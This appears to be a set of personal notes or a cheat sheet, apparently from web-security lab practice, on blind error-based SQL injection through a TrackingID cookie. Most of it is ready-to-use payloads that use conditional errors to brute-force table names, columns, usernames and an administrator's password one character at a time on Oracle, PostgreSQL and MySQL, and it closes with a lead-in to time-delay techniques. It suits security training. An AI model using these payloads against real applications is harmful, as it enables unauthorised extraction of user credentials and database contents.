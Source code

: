 Sometimes there will be no difference in responses from TRUE and FALSE conditions
then we need to trigger an exception and db cant hanle then we get 500 server error indicating our sql query is correct

SELECT CASE
```
select case when (condition) then condition2 else condition3 end 
```

```
SELECT CASE WHEN (1=1) THEN 1/0 ELSE '' END from table
```

```
ORACLE - TO_CHAR(1/0)
PostgreSQL - cast(1/0 as text)
MySQL - IF(condition,true-condition,else-condition)
```

Example : 
```
Cookie : TrackingID = abcdef'+(SELECT '' from information_schema.tables LIMIT 1)+'

Cookie : TrackingID = abcdef'||(SELECT '' from dual)||'

```

Bruteforcing tables
```
Cookie : TrackingID = abcdef'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END from $table_name$)||'
```

Bruteforcing columns
```
Cookie : TrackingID = abcdef'||(SELECT CASE WHEN(MAX(LENGTH($username$))>0) THEN TO_CHAR(1/0) ELSE '' END from users)||'
```

Bruteforcing data in columns
Example : usernames 
```
Cookie : TrackingID = abcdef'||(SELECT CASE WHEN (MAX(LENGTH(username))>0) THEN TO_CHAR(1/0) ELSE '' END from users where username='$administrator$' )||'
```

Bruteforcing data (passwords)
```
Cookie : TrackingID = abcdef'||(SELECT CASE WHEN (SUBSTR(password,1,1)='$a$') THEN TO_CHAR(1/0) ELSE '' END from users where username='administrator')||'
```
if we got error that means our condition is true

--- 

### Time Delays 

upto now we got errors but what if exceptions are handled correctly ? , in this case we tell db to sleep for few seconds if condition is true
we should see some delay in response
